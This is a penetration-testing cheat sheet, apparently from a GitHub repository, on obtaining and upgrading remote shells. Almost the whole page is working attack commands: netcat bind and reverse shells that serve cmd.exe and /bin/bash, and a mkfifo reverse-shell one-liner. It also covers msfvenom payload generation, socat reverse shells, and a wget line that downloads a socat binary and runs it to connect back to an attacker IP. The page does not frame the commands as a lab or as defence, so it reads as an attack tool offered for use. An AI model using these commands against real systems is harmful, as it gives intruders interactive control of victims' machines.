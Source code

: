 ### Bind/Reverse Shells

#### Kali Shells
```
# Several shells located in Kali at
/usr/share/laudanum/
```

#### Bind Shell (don't work behind firewalls)
```
# On Windows machine offer shell
nc -lvp 4444 -e cmd.exe

# On Kali machine connect
nc -nv win.dow.si.p 4444
```
#### Reverse Shell
```
# On Kali Machine listen for connection
nc -lvp 4444

# On target machine
nc -nv att.ac.kin.gip 4444 -e /bin/bash
```
### Improving your Shell
```
# Python one liner
python -c 'import pty; pty.spawn("/bin/bash")'

# Python to make fully interactive
python -c 'import pty; pty.spawn("/bin/sh")'
# Then ctrl-z to background shell and run
stty raw -echo
fg
# It will look ugly but just type the following
reset
# If this shell is the incorrect size for your terminal, type
stty size
# And specify the size
stty -rows 48 -columns 120

# Perl
perl —e 'exec "/bin/sh";'
```
### If using netcat and -e option not available, use this one liner
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
### Improving your Shell with msfvenom one-liners
```
# List the options
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'

# Select and use one
msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.3.4 LPORT=4444 R
```

### Using socat to invoke full interactive shell
```
# On attacking machine, listen with socat
socat file:`tty`,raw,echo=0 tcp-listen:4444

# On victim machine with socat already installed, replace 10.0.3.4 with attacking ip
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

# On victim machine without socat installed
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

```

### Error opening terminal: 
```
# If getting Error opening terminal: xterm-256color.
export TERM=xterm
```

